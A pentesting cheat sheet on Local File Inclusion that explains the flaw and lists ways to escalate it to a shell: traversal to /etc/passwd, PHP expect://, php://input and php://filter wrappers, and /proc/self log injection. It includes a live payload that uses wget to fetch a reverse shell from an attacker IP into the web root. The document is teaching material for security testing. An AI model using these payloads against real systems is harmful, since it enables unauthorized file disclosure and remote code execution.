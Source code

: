 LFI Cheat Sheet

## **What is an LFI Vulnerability?**

LFI stands for **Local File Includes** - it’s a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don’t sanitize user input.

Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script foo.php?file=image.jpg which takes image.jpg as a parameter. An attacker would simply replace image.jpg and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as foo.php?file=../../../../../../../etc/passwd or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it’s possible to run system executables.

## **How to get a Shell from LFI**

Below are some techniques I’ve used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

* * *

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

* * *

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

http://127.0.0.1/fileincl/example1.php?page=expect://ls
Below is the error received if the PHP expect wrapper is disabled:

Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

* * *

### PHP Wrapper php://file

Another PHP wrapper, php://input your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.

![lfi-php-file-hackbar-pentesters-labs.png](../_resources/c78229ee039cd3494e7531e23ac84c0d.png)

Example:

http://192.168.183.128/fileincl/example1.php?page=php://input
Post Data payload, try something simple to start with like:

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at http://192.168.183.129/shell.php

* * *

### PHP Wrapper php://filter

Another PHP wrapper, php://filter in this example the output is encoded using base64, so you’ll need to decode the output.

http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

* * *

### /proc/self/environ LFI Method

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

* * *

### /proc/self/fd/ LFI Method

Similar to the previous /proc/self/environ method, it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. I’d recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB’s [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

* * *

## **fimap LFI Pen Testing Tool**

fimap is a [tool used on pen tests](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as /proc/self/environ. Another tool commonly used by pen testes to automate LFI discovery is Kali’s dotdotpwn, which works in a similar way.

* * *

### fimap + phpinfo() Exploit

Fimap exploits PHP’s temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

Enjoy.